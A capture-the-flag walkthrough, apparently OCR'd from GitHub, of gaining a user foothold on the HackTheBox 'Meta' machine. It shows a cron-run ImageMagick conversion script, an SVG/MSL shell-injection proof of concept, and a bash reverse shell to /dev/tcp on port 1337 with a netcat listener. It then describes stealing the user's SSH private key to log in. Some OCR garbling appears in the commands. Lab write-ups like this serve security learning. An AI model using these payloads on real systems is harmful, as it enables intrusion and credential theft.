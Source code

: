   * What is this? convert\_images.sh SHELL=/bin/sh PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
  * 3 /usr/sbin/CRON -f 2 /bin/sh -c cp -rp \~/conf/config\_neofetch.conf /home/thomas/.config/neofetch/config.conf 1 /usr/local/bin/mogrify -format png _._ 1 /bin/sh /sbin/dhclient-script 1 /bin/sh -c rm /var/www/dev01.artcorp.htb/metaview/uploads/\* 1 /bin/sh -c /usr/local/bin/convert\_images.sh 1 /bin/bash /usr/local/bin/convert\_images.sh
  * This convert\_images.sh file was the best lead I could find unfortunately. However, I started getting my hopes up again once I navigated to this file and cat'd the contents of it.
  * cat convert\_images.sh #!/bin/bash cd /var/www/dev01.artcorp.htb/convert\_images/ && /usr/local/bin/mogrify -format png _._ 2>/dev/null pkill mogrify
  * Upon analyzing, I thought to myself, why is it killing mogrify and what even is mogrify? Turns out a simple Google search shows that Mogrify has another alias of ImageMagick.
  * In a CTF, it often helps to consider the fact that a story is trying to be told or followed throughout the experience.
    * In our case on the website, the developers said that they develop tools for image media. Hence, Metaview, now ImageMagick. It seems to be following a trend.
    * Upon deeper inspection of the command above, I interpreted that convert\_images was where I needed to place an exploit because the binary mogrify would be formatting the file placed into convert\_images into a .png hence "-format png"
    * After discovering this, I figured that this must be our target.
  * I stumbled upon a site that features a shell injection vulnerability in ImageMagick.
    * [https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)
    * I then found a PoC for a file with a .svg extension.
    * PoC: -\<image authenticate='ff" `cat /dev/shm/shell.sh|bash`;"'> \<read filename="pdf:/etc/passwd"/> \<get width="base-width" height="base-height" /> \<resize geometry="400x400" /> \<write filename="test.png" /> \<svg width="700" height="700" xmlns="[http://www.w3.org/2000/svg](http://www.w3.org/2000/svg)" xmlns:xlink="[http://www.w3.org/1999/xlink](http://www.w3.org/1999/xlink)"> \<image xlink:href="msl:poc.svg" height="100" width="100"/> \</svg> \</image>
    * The site says that it is critical to maintain the name poc.svg. However, I waited to transfer the file to convert\_images because the cron job script is running every few minutes and will delete the .svg and convert it into a .png and transfer it to dev/null. This will trigger the reverse shell but we need to get the reverse shell in the correct place first.
    * Once I did that, I set up a Netcat listener on port 1337.
      * "nc -lnvp 1337"
    * I then made a file named [shell.sh](http://shell.sh/)
      * [shell.sh](http://shell.sh/) contents:
        * \#!/bin/bash bash -c "sh -i >& /dev/tcp/10.10.15.74/1337 0>&1"|bash
    * On the target machine, I navigate to the /dev/shm/ and transferred [shell.sh](http://shell.sh/) here.
    * Lastly, transfer poc.svg to /var/www/dev01.artcorp.htb/convert\_images/
    * Wait a few minutes for the cron job script to execute automatically and then once the file is not in convert\_images anymore, check your Netcat listener with port 1337.
  * WE GET USER!!!!!!!!!!!!!!!!
    * Upgrade shell: python3 -c 'import pty;pty.spawn("/bin/bash")'
    * You now will have access to "thomas" a.k.a. user.
    * Cat out user.txt in his home directory.
  * I LEARNED SOMETHING BIG HERE:
    * Do a "ls -la" in his home directory.
    * You see .ssh right?
    * Navigate into it and cat out his id\_rsa and steal it (copy/paste).
    * Go back to your attack machine and place the contents of the key into a file named id\_rsa.
    * Now:
      * "ssh -i id\_rsa [thomas@10.129.100.189](mailto:thomas@10.129.100.189)"
      * Hit "yes" for fingerprint and it won't even ask you for a password.
      * You now have SSH credentials for Thomas. Keep in mind that SSH is a best-case-Scenario in terms of shell stability.
